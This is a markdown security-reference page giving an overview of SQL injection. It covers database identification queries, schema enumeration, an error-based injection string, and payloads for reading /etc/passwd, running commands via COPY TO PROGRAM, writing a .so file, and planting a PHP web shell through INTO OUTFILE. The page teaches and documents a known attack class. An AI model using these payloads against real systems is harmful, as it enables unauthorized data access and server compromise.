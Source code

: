 ```yaml
---
title: "SQL Injection"
description: "Overview of SQL Injection"
lead: "Overview of SQL Injection"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "server-side"
weight: 620
toc: true
---
```


## Definition

**SQL injection** allows attackers to execute malicious SQL queries through user input areas, potentially accessing, modifying, or deleting data.

## DMBS Identification

### Version

| DBMS        | Query                      | Output (example) |
| ----------- | -------------------------- | ---------------- |
| SQLite      | `SELECT sqlite_version()`  | 3.42.0           |
| MySQL       | `SELECT VERSION()`         | 5.7.38           |
| PostgreSQL  | `SELECT version()`         | PostgreSQL 14.8 ... |

### SQL Functions

| PostgreSQL           | SQLite              | MySQL               |
| -------------------- | ------------------- | ------------------- |
| `'a'\|\|'b'`         | `'a'\|\|'b'`        | `'a' 'b'`           |
| `POW(3,2)`           | `POW(3,2)`          | `POW(3,2)`          |
| `CHR(65)`            | `CHAR(65)`          | `CHAR(65)`          |
| `ASCII('A')`         | `UNICODE('A')`      | `ASCII('A')`        |
| `SUBSTR('abc',2,1)`  | `SUBSTR('abc',2,1)` | `SUBSTR('abc',2,1)` |
| `PG_SLEEP(4)`        | *Unknown*           | `SLEEP(4)`          |
| `SIMILAR TO`, `~`    | `REGEXP`, `GLOB`    | `REGEXP`            |

### Testing & Documentation

- [PostgreSQL - Online](https://onecompiler.com/postgresql/) - [Docs](https://www.postgresql.org/docs/)
- [MySQL - Online](https://onecompiler.com/mysql/) - [Docs](https://dev.mysql.com/doc/refman/8.0/en/)
- [MariaDB - Online](https://onecompiler.com/mariadb/)
- [Microsoft SQL Server - Online](https://onecompiler.com/sqlserver)
- [Oracle - Online](https://livesql.oracle.com/)
- SQLite3: run the command `sqlite3` - [Docs](https://www.sqlite.org/docs.html)

```bash
$ sudo docker run -d --rm --name test-postgres -e POSTGRES_PASSWORD=s3cr3t -e PGDATA=/var/lib/postgresql/data/pgdata postgres:16.3-bookworm
$ sudo docker exec -it test-postgres bash
root@1d5aa23dac7c:/# psql -U postgres
psql (16.3 (Debian 16.3-1.pgdg120+1))
Type "help" for help.

postgres=#
```

## Database enumeration

### MySQL

```sql
SELECT GROUP_CONCAT(schema_name,',') FROM information_schema.schemata;
SELECT GROUP_CONCAT(table_name,',') FROM information_schema.tables;
SELECT GROUP_CONCAT(column_name,',') FROM information_schema.columns WHERE table_name = 'users';
```

### PostgreSQL

```sql
SELECT datname FROM pg_database;
SELECT string_agg(table_name,',') FROM information_schema.tables;
SELECT string_agg(column_name,',') FROM information_schema.columns WHERE table_name = 'users';
```

### SQLite

```sql
SELECT GROUP_CONCAT(tbl_name,',') FROM sqlite_master WHERE type='table' AND tbl_name NOT like 'sqlite_%';
SELECT sql FROM sqlite_master WHERE tbl_name='users';
SELECT GROUP_CONCAT(name,',') FROM PRAGMA_TABLE_INFO('users');
```

## Error based

### PostgreSQL

```sql
' AND 1=CAST((SELECT username FROM users) AS int)--
```

## File read/write & RCE

### PostgreSQL

```sql
SELECT pg_ls_dir('.');
SELECT pg_read_file('/etc/passwd');
COPY (SELECT '') TO PROGRAM 'sleep 5';

SELECT lo_import('/etc/passwd', 31337);
SELECT lo_get(31337);

SELECT lo_from_bytea(131337, decode('SGVsbG8gV29ybGQh', 'base64'));
SELECT lo_export(131337, '/tmp/exploit.so');
```

### MySQL

```sql
SELECT LOAD_FILE('/etc/passwd');
SELECT '<?php system($_REQUEST[c]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```

## References

- [PostgreSQL SQL injection: SELECT only RCE - @adeadfed](https://adeadfed.com/posts/postgresql-select-only-rce/)